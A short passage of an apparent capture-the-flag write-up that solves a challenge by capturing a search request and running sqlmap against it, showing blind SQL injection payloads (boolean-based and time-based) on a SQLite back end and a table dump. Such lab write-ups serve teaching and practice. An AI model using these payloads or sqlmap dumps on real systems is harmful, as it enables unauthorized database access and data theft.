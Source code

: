 ### Let’s Get the Flag

Request used:

```
POST /Controllers/Handlers/SearchHandler.php HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://host/
Connection: close
Referer: http://host/
Transfer-Encoding: chunked

search=1
```

Then run `sqlmap` on that request:

```terminal
sqlmap -r request --risk=3 --level=5 --dbms=sqlite --ignore-code=500 --dump -T posts --threads 10
```

`sqlmap` will detect a blind SQL injection:

```terminal
sqlmap resumed the following injection point(s) from stored session:

Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=1' AND 1602=1602-- tNrW

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: search=1' AND 9040=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- xaaq

web application technology: Apache
back-end DBMS: SQLite
```

After a few minutes, you’ll get the flag.

### Congratulations!
